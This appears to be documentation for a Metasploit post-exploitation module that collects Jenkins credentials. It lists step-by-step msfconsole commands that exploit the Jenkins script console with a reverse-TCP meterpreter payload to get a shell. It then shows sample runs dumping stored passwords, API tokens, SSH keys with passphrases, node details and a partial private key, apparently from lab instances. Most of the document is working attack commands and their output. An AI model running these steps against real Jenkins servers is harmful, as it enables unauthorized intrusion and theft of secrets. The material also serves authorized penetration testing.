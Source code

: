 ## Vulnerable Application

  Official Source:
[Jenkins](https://jenkins.io/download/)

This module has been verified against:

  1. Jenkins 2.67 on Ubuntu 16.04 in Docker
  1. Jenkins 2.67 on Windows 7 SP 1
  1. Jenkins 2.60.1
  1. Jenkins 1.56

## Verification Steps

  1. Set up Jenkins to obtain a shell (use Docker for quick setup)
  1. Run `docker run -p 8080:8080 -p 50000:50000 jenkins`
  1. Use the default setup and install "suggested plugins"
  1. Create new user admin, add a user or credential (via Manage Jenkins)
  1. Start msfconsole
  1. We'll use the `jenkins_script_console` module to quickly gain a shell
  1. Do: ```use exploit/multi/http/jenkins_script_console```
  1. Do: ```set RHOST 172.17.0.1```
  1. Do: ```set RPORT 8080```
  1. Do: ```set TARGETURI /```
  1. Do: ```set USERNAME admin```
  1. Do: ```set PASSWORD or set API_TOKEN```
  1. Do: ```set TARGET 1```
  1. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
  1. Do: ```set LHOST 192.168.56.105```
  1. Do: ```exploit -j```
  1. Do: ```use post/multi/gather/jenkins_gather```
  1. Do: ```set SESSION 1```
  1. Do: ```run```
  1. You should see the saved credentials output

## Options

  **SEARCH_JOBS**

  This option searches through the `jobs` folder for interesting
keywords but obviously increases runtime on larger instances.

  **STORE_LOOT**

  This option saves interesting files and loot to disk. If set to
false will simply output data to console.

## Scenarios

**Jenkins on Windows**

```
msf post(jenkins_gather) > sessions

Active sessions
===============

  Id  Type                     Information                   Connection
  --  ----                     -----------                   ----------
  18  shell x86/linux                                        192.168.56.105:4444 -> 192.168.56.1:58828 (172.17.0.1)
  20  meterpreter x86/linux    uid=0, gid=0, euid=0, egid=0  192.168.56.105:4444 -> 192.168.56.1:58974 (172.17.0.2)
  21  meterpreter x86/windows  NT AUTHORITY\SYSTEM @ kali    192.168.56.105:4444 -> 192.168.56.101:50427 (192.168.56.101)
  23  shell x86/windows                                      192.168.56.105:4444 -> 192.168.56.101:50793 (192.168.56.101)

msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch: 
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user 
  tokens, SSH keys, and secrets. Interesting files will be stored in 
  loot along with combined csv output.


msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at C:\Program Files\Jenkins
[+] Credentials found - Username: user1 Password: Password123456
[+] SSH Key found! ID: 83c6a18f-6b35-420a-8534-cc505c3347b5 Passphrase: secretpassphrase123 Username: sshkey1 Description: interesting description
[+] Job Info found  - Job Name:  User: testpass Password: secretpass123
[+] Job Info found  - Job Name:  User: testpass Password: ohwowosupersecret
[+] Node Info found - Name: test Host: hostnode1.lab.local Port: 22 CredID: 972fc428-dd7c-46ea-a119-be78ae0866ad
[+] API Token found - Username: admin Token: 8a114e0fa48c1a489c39b98e94c986c8
[+] API Token found - Username: useruseruser Token: 6810c3f6ccca939ac2a8b8ac4b9de012
[*] Searching through job history for interesting bits...
[+] Job Log truffles:
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:"secret is secret"
...
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:"secret is secret"
[+] 
Creds
=====

 Username  Password           Description
 --------  --------           -----------
                                          
 testpass  secretpass123                   
 testpass  ohwowosupersecret  
 user1     Password123456     

[+] 
API Keys
========

 Username      API Tokens
 --------      ----------
 admin         8a114e0fa48c1a489c39b98e94c986c8
 useruseruser  6810c3f6ccca939ac2a8b8ac4b9de012

[+] 
Nodes
=====

 Node Name  Hostname             Port  Description   Cred Id
 ---------  --------             ----  -----------   -------
 test       hostnode1.lab.local  22    testtesttest  972fc428-dd7c-46ea-a119-be78ae0866ad

[+] SSH Key
[*]  ID: 83c6a18f-6b35-420a-8534-cc505c3347b5
[*]  Description: interesting description
[*]  Passphrase:  secretpassphrase123
[*]  Username:    sshkey1
[*] 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAuTfL0ijR0JDLTQC092ZolnkTJGRi7YQInK/K1ZFDFc44JOSU
...snip...
7Ad+Ja6+51ECnXJIFKPj7binB6/C10YVqHh4KON3DeA6ZA7ZpUko
-----END RSA PRIVATE KEY-----

[*] Post module execution completed


```

**Jenkins 2.67 on Ubuntu 16.04**

```
msf post(jenkins_gather) > set session 20
session => 18
msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch:
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user
  tokens, SSH keys, and secrets. Interesting files will be stored in
  loot along with combined csv output.

msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at /root/.jenkins
[+] Credentials found - Username: thanksforthefish Password: whatagreatbook
[+] API Token found - Username: user1 Token: 859e1d6ee6ab85804434fa5395ab962d
[+] API Token found - Username: admin Token: 9da706c125a4b5a4c19b1f799723175c
[*] Searching through job history for interesting bits...
[+] 
Creds
=====

 Username          Password         Description
 --------          --------         -----------
 thanksforthefish  whatagreatbook

[+] 
API Keys
========

 Username  API Tokens
 --------  ----------
 admin     9da706c125a4b5a4c19b1f799723175c
 user1     859e1d6ee6ab85804434fa5395ab962d

[*] Post module execution completed
```
